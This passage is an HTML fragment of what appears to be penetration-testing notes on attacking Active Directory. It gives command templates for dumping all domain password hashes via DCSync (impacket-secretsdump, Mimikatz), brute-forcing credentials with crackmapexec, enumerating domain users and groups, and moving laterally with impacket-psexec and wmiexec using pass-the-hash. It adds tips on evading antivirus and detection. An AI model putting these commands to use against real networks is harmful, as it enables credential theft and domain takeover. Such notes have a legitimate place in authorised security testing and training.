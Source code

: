 </ul>

<li>DCSync</li>
<ul>
    <li>Retrieve all domain password data via domain replication protocols.</li>
    <li>Tools/Methods</li>
    <ul>
        <li>Impacket-SecretsDump &#039;&lt;username&gt;:&lt;password&gt;@&lt;ip address&gt;&#039;</li>
        <ul>
            <li>Attack remotely.  Generates network traffic.  Does not have to deal with AV or other problems on victim machine.</li>
        </ul>
        <li>.\Mimikatz.exe 'lsadump::dcsync /domain:&lt;domain name&gt; /user:administrator&#039; exit</li>
        <ul>
            <li>Attack locally.  Reduced network traffic.</li>
        </ul>
    </ul>
</ul>

<li>Brute force credentials with smb and winrm</li>
<ul>
    <li>crackmapexec winrm/smb -u &lt;username&gt; -p &lt;password&gt; or -H &lt;hash&gt;</li>
    <ul>
        <li>SMB brute forcing can be detected and banned by some AD setups</li>
    </ul>
</ul>

<li>Enumerating AD Users and Groups</li>
<table>
    <tr>
        <td>net user</td>
        <td>Shows local user accounts</td>
    </tr>
    <tr>
        <td>net user /domain</td>
        <td>Shows all domain user accounts</td>
    </tr>
    <tr>
        <td>net user &lt;user&gt; /domain</td>
        <td>Shows all domain user accounts</td>
    </tr>
    <tr>
        <td>net group /domain</td>
        <td>Shows all groups on the domain</td>
    </tr>
</table>

<h2>Credential Usage</h2>

<table>
    <tr>
        <td>
            <li>impacket-psexec</li>
            <ul>
                <li>If user has ability to write to a SMB share</li>
            </ul>
            <li>impacket-wmiexec uses same syntax</li>
            <ul>
                <li>wmiexec does not require writing to SMB</li>
            </ul>
        </td>
        <td>
            <li>impacket-psexec &lt;username&gt;@&lt;ip address&gt; -hashes LM:NTLM</li>
            <li>impacket-psexec &lt;username&gt;:&lt;password&gt;@&lt;ip address&gt;</li>
            <li>impacket-psexec &lt;username&gt;@&lt;ip address&gt;</li>
            <ul>